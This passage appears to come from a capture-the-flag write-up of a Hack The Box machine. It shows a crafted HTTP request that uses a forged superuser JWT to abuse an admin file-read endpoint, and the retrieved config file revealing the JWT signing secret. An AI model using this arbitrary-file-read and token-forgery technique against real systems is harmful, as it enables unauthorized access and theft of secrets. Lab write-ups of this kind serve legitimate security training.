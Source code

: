 ```python
    return get_openapi(title = "FastAPI", version="0.1.0", routes=app.routes)

app.include_router(api_router, prefix=settings.API_V1_STR)
app.include_router(root_router)

def start():
    import uvicorn

    uvicorn.run(app, host="0.0.0.0", port=8001, log_level="debug")

if __name__ == "__main__":
    # Use this for debugging purposes only
    import uvicorn

    uvicorn.run(app, host="0.0.0.0", port=8001, log_level="debug")
```
As we can see in the initial declararion we can see that this file is importing configurations from:  
```python
from app.core.config import settings
```
So we can try to download this file as well and see if it contains the JWT token:  
```http
POST /api/v1/admin/file HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.161/docs
Content-Type: application/json
Origin: http://10.10.11.161
Content-Length: 48
Connection: close
Sec-GPC: 1
Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMzMjE5LCJpYXQiOjE2NTg5NDIwMTksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.6pBW4BPGXUva9_et2wRTmi69Iy9h7Oxs4vssoNTXh2s

{
  "file": "/home/htb/uhc/app/core/config.py"
}
```
After some edits, we can see the source:  
```python
from pydantic import AnyHttpUrl, BaseSettings, EmailStr, validator
from typing import List, Optional, Union

from enum import Enum


class Settings(BaseSettings):
    API_V1_STR: str = "/api/v1"
    JWT_SECRET: str = "SuperSecretSigningKey-HTB"
    ALGORITHM: str = "HS256"

    # 60 minutes * 24 hours * 8 days = 8 days
    ACCESS_TOKEN_EXPIRE_MINUTES: int = 60 * 24 * 8

    # BACKEND_CORS_ORIGINS is a JSON-formatted list of origins
    # e.g: '["http://localhost", "http://localhost:4200", "http://localhost:3000", \\
    # "http://localhost:8080", "http://local.dockertoolbox.tiangolo.com"]'
    BACKEND_CORS_ORIGINS: List[AnyHttpUrl] = []

```